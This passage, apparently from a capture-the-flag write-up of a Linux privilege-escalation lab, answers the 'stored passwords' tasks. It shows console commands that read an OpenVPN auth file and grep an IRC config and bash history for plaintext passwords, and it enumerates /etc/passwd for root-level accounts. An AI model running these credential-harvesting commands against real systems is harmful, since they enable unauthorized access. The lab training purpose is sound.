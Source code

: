 ```console
reneg-sec 0

TCM@debian:~$ cat /etc/openvpn/auth.txt
user
password321
```
{: .nolineno }

Answer : password321

### What user's credentials were exposed in the OpenVPN auth file?

Answer : user

A second config file is on the machine with clear text credentials :

```console
TCM@debian:~$ cat /home/user/.irssi/config | grep -i passw
    autosendcmd = "/msg nickserv identify password321 ;wait 2000";
TCM@debian:~$ 
```
{: .nolineno }

## TASK 5 : Privilege Escalation - Stored Passwords (History)
### What was TCM trying to log into? 
Looked into the "bash_history" file :

```console
TCM@debian:~$ ls -la
total 48
drwxr-xr-x  5 TCM  user 4096 Jun 18  2020 .
drwxr-xr-x  3 root root 4096 May 15  2017 ..
-rw-------  1 TCM  user  801 Jun 18  2020 .bash_history
-rw-r--r--  1 TCM  user  220 May 12  2017 .bash_logout
-rw-r--r--  1 TCM  user 3235 May 14  2017 .bashrc
drwx------  2 TCM  user 4096 Jun 18  2020 .gnupg
drwxr-xr-x  2 TCM  user 4096 May 13  2017 .irssi
-rw-------  1 TCM  user  137 May 15  2017 .lesshst
-rw-r--r--  1 TCM  user  212 May 15  2017 myvpn.ovpn
-rw-------  1 TCM  user   11 Jun 18  2020 .nano_history
-rw-r--r--  1 TCM  user  725 May 13  2017 .profile
drwxr-xr-x 10 TCM  user 4096 Jun 18  2020 tools
TCM@debian:~$ cat ~/.bash_history | grep -i passw
mysql -h somehost.local -uroot -ppassword123
cat /etc/passwd | cut -d: -f1
awk -F: '($3 == "0") {print}' /etc/passwd
TCM@debian:~$ 
```
{: .nolineno }
